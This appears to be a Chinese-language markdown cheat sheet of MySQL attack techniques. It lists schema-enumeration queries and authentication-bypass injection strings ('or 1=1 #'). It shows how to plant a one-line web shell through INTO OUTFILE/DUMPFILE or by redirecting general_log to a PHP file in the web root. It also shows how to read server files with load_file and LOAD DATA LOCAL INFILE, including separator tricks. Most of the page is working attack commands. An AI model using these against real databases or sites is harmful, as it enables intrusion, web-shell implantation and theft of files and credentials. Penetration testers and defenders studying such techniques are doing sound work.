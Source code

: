 # Mysql



## SQL 注入 tips：



查询所有数据库：

```
select schema_name from SCHEMATA;
```

查询指定数据库的所有数据表：

```
select table_name from tables where table_schema = "数据库名";
```

查询指定数据库指定数据表的所有字段：

```
select column_name from columns where table_name="表名" and table_schema="数据库名";
```

万能密码：

```
' or 1=1 #

' union select 1,2 #
```









## 1、通过outfile / dumpfile GetShell ##

前提：

1、已经连接上了mysql服务器

2、mysql root 权限

3、secure_file_priv 允许写入文件到网站目录

4、网站目录 mysql用户有权限写入文件

查看secure_file_priv 语句：

	show variables like "%secure_file_priv%";

如果返回空说明可以导出至任意位置；

如果是指定的目录那就只能导出到那个目录下；

如果返回NULL，表示哪里都不可以导出。

（注意：secure_file_priv不可以通过命令修改，只能通过修改配置文件来设定）

<br>

写入文件语句：

	select "[文件内容]" into outfile "网站目录/文件名"
	
	select "[文件内容]" into dumpfile "网站目录/文件名"

这里文件内容改成一句话木马，即可getshell


## 2、通过日志 GetShell ##

这里的日志指的是mysql general_log。

前提：

1、 已经连接上了mysql服务器

连接上服务器后，查看general_log是否开启，如果没有开启，可以用命令将其开启：
	
	set global general_log=on;
	
	set global general_log_file=/var/www/html/back2.php;

然后select 一个一句话木马内容即可，这个日志是将每个select的语句保存到指定的文件中，我们select 了一个一句话木马内容，就会写入到保存的文件中，如果有执行权限即可执行木马：

![](./mysql/1.png)

不过如果是用命令行的，在<b>linux</b>服务器下不起作用，因为默认这样子的日志没有读写权限：

![](./mysql/2.png)

![](./mysql/3.png)

但是如果是<b>Windows</b>的话，没有这个权限问题，是可以执行的

## 3、通过load_file 读取文件 ##

load_file，具体操作和outfile类似，前提也类似。

语句：
	select load_file("文件路径");

## 4、load data 读取文件 ##

前提：

1、已经连接上了mysql服务器

2、可以读写数据表，有FILE权限

如果load_file被secure_file_priv限制了话，还有一记，可破secure_file_priv的限制

创建一个有CREATE、FILE、INSERT、SELECT权限的用户

![](./mysql/4.png)

![](./mysql/5.png)

![](./mysql/6.png)

load data格式：
	
	load data local infile "读取的文件名" into table 表名

![](./mysql/7.png)


### 指定字段 ###

load data有默认的分隔符，通过分隔符来隔开字段（默认是\t），也就是说，假设用户没有create权限，只能使用现成的表，但是现成的表有好几个字段，如果直接load data的话，会读不到任何数据：

![](./mysql/8.png)

例子：有四个字段，直接load data：

![](./mysql/9.png)

所以我们要指定一下字段，把数据全部丢到introduction字段里：

格式：

	load data local infile "读取的文件名" into table 表名 (字段名)

![](./mysql/10.png)

### 记录分隔符 ###

再假设，极端情况，没有text那么大的字段可以供我们放数据，只有varchar(255)是最大的，我们还有一个东西，名曰 记录分隔符（默认\n），这个就算遇到那个符号时，就是以另一行记录插入

格式：

	load data local infile "读取的文件名" into table 表名 LINES TERMINATED BY '分隔符' (字段名)

如果要查看这样的一个文件，没有\n，或者说每一行都很多字符，直接导入到varchar(255)的字段是不行的，会加载不完全

![](./mysql/11.png)

![](./mysql/12.png)

通过记录分隔符设置为出现次数比较多的符号，如 ; 或者 # 等

![](./mysql/13.png)